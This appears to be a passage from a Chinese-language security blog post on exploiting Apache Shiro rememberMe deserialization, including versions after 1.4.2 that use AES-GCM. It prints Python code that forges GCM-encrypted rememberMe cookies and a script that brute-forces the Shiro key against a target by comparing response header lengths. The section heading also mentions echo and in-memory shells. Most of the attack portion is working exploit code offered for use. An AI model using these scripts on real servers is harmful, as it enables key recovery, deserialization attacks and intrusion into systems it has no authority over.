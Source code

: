  |

##### **0x02：高版本下的利用**

而在 1.4.2 以后由于 padding oracle 的影响，shiro 官方把加密方式改为了 GCM，所以我们需要更改脚本，添加 GCM 下的攻击方式去攻击高版本的 shiro，通过跟踪代码动态调试可以看出确实是使用 GCM 加密。  

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnT0sWuXTXqbzc9VyqXCzFxfia9lVFJIBPd70crYkAWD6xicBcgcxxkj9Owetv5GyEZlMUyQuzAt7YCg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnT0sWuXTXqbzc9VyqXCzFxfEjA7OLYmGWKZn0bvZibrsbpY3ZJApzvlJMS52do3ibqah4FKmm3ffldQ/640?wx_fmt=png)

所以 shiro 的攻击脚本中的核心代码我们来修改一下, GCM 加密不需要 padding，但需要一个 MAC 值（也就是我代码里的 tag），这块可以自己跟一下源码，核心代码如下：

| 

```
iv = os.urandom(16)
    cipher = AES.new(base64.b64decode(key), AES.MODE_GCM, iv)          
    ciphertext, tag = cipher.encrypt_and_digest(file_body) 
    ciphertext = ciphertext + tag   
    base64_ciphertext = base64.b64encode(iv + ciphertext)
    return base64_ciphertext

```

 |

##### **0x03：获得 key & 回显 & 内存 shell**

今年从三月到八月有很多师傅写了很多文章集中在 shiro 的利用上，我也综合了各位师傅的想法和思路搞了一些脚本。

**1.key 检测：**

以前的脚本批量检测 shiro 的存在或者说获得 key 我们用到最多的还是 ysoserial 中的 urldns 模块，不过这个有一个问题就是如果不出网的话会有问题，所以这里还有一个新的办法就是使用一个空的 SimPlePrincpalCollection 作为我们要序列化的对象，也就是构造一个正确的 rememberMe 触发反序列化，如果 key 是正确的，响应包中不会返回 rememberMe=deleteMe，这里一开始我想在脚本中通过检测返回包中是否有 deleteMe 关键字来做判断，结果发现有一些环境本身就会返回 rememberMe=deleteMe，因此最终选择了一个比较暴力的方式，关键代码如下  

| 

```
r1 = requests.get(target, cookies={'rememberMe': "123"}, timeout=10, proxies=PROXY,
                         verify=False, headers=myheader,allow_redirects=False)
    rsp1=len(str(r1.headers))
 #这里我先给一个肯定不正确的rememberMe   
    try:
        for key in keys:
            print("[-] start key: {0}".format(key))
            if ciphertype == 'CBC':
                payload = CBCCipher(key,base64.b64decode(checkdata))
            if ciphertype == 'GCM':
                payload = GCMCipher(key,base64.b64decode(checkdata))

            payload = payload.decode()
        #print(payload)
            r = requests.get(target, cookies={'rememberMe': payload}, timeout=10, proxies=PROXY,
                         verify=False, headers=myheader,allow_redirects=False)  # 发送验证请求
            rsp = len(str(r.headers))
            if rsp1 != rsp and r.status_code != 400:
            #在这里和肯定不正确的返回包header的lenth做比较，如果有差异，则是正确的的key
                print("!! Get key: {0}".format(key))
                exit()

```
